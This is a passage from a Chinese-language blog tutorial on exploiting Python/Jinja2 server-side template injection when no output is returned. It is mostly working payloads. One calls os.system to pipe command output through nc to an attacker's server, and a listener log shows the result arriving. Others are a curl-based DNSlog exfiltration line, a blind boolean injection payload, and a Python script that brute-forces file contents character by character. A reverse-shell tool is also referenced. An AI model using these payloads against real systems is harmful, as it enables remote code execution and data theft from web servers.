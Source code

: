 脚本跑出来bulitins以后还会继续深入递归（继续索引name等获取的是字符串值），请自行选择简短的payload即可。

控制递归深度，挖掘更多payload？

0x05 无回显处理
nc转发
![](https://mmbiz.qpic.cn/mmbiz_png/1N39PtINn8vv7KaA050aUefyTRxicXz0yIpYjX1dNcUwCO5qeSUQsAn06fksbjmU0hEwU5xokj9l0GOnY2rpUVg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#vps接收到回显
root@iZwz91vrssa7zn3rzmh3cuZ:~# nc -lvp 44444
Listening on [0.0.0.0] (family 0, port 44444)
Connection from [xx.xxx.xx.xx] port 44444 [tcp/*] accepted (family 2, sport 46258)
app.py
app.pyc
error.html

总之，这里只是提供一个想法，希望能有抛砖引玉效果？有兴趣的读者可以自行多去尝试。网上也没有查阅到更多关于如何深入挖掘的资料。希望懂的大佬能教教小弟。
如果嫌一次一次转发太复杂也可以考虑直接反弹交互型shell。（反弹shell的操作网上也一大堆，这里就不多赘述了，可以参考：https://github.com/0xR0/shellver）

vps：nc -lvp 44444

payload: ''.__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os'].system('ls | nc xx.xxx.xx.xx 44444')

dnslog转发

curl `whoami`.xxxxxx

参考巧用DNSlog实现无回显注入

建立本地文件再读取

这个也很好理解，针对system无回显，直接执行ls > a.txt，再用open进行读取

curl上传文件

这个方法没有实践过，某师傅博客上翻到的，记录一下或许今后就用到了。

无回显代码执行利用方法

盲注{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}类似SQL布尔注入，通过是否回显~p0~来判断注入是否成功。网上现有脚本如下：

```python
import requests

url = 'http://127.0.0.1:8080/'

def check(payload):
    postdata = {
        'exploit':payload
        }
    r = requests.post(url, data=postdata).content
    return '~p0~' in r

password  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$'()*+,-./:;<=>?@[\]^`{|}~'"_%'

for i in xrange(0,100):
    for c in s:
        payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
        if check(payload):
            password += c
            break
    print password

```
